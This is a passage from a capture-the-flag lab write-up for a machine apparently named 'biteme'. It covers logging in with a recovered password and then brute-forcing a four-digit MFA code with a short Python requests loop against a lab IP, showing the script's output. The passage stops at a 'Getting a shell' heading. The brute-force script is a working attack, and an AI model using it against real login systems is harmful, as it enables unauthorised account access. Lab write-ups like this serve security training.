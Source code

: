 Let's run this script :  
```
attacker@AttackBox:~/biteme$ python3 script.py 
Valid password : fca
```

Now we have a valid password ! Let's try the credentials we have now :  
![](https://i.imgur.com/pqjG733.jpg)  

After login, we are redirected to this page :  
![](https://i.imgur.com/gaAZ8ws.jpg)  

## MFA bruteforce

Let's try to bruteforce this code using [BurpSuite](https://portswigger.net/burp). We need to capture the request to this page :  
![](https://i.imgur.com/LJisGiZ.jpg)  

So we have the parameter name `code`. We can try to use [BurpSuite](https://portswigger.net/burp)'s Intruder but it will be way too slow... So let's write a python script :  
```
#!/usr/bin/python3

import requests

url = 'http://10.10.59.32/console/mfa.php'
code = 1000
cookies = {"user": "jason_test_account", "pwd":"fca"}

while True:
    data = {'code' : str(code)}
    r = requests.post(url, data = data, cookies = cookies)
    if "Incorrect code" not in r.text:
        print("The correct code is",code)
        break
    else:
        code = code + 1
```

Now let's run this script :  
```
attacker@AttackBox:~$ python3 brute_force_mfa.py 
The correct code is 2368
```

Let's try this code using our web browser :  
![](https://i.imgur.com/SpzHnrD.jpg)  

And we are redirected to this page :  
![](https://i.imgur.com/1qlHy1O.jpg)  

## Getting a shell
